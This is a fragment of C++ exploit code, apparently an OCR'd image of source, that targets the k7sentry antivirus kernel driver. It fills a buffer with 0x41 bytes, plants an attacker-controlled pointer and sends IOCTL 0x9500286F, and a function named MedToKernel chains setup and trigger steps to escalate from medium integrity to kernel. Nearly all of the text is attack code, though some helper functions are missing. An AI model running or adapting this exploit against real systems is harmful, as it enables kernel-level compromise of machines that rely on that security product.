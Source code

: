 ```C++
	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;
	(*(DWORD*)data) = dwBufferPtrWeControl;

	// SetInformationFile
	if (!DeviceIoControl(hFile, 0x9500286F, data, 16, outBuffer, 4, &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global\r\n");
	}
}


VOID MedToKernel()
{
	HANDLE 	hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

	BYTE arrInput[0x1000] = { 0 };
	BYTE arrOutput[0x1000] = { 0 };
	DWORD dwBytesReturned = 0;

	SetupMemory_0x9500286F(hDevice);
	TriggerFunctionCall(hDevice);
}

```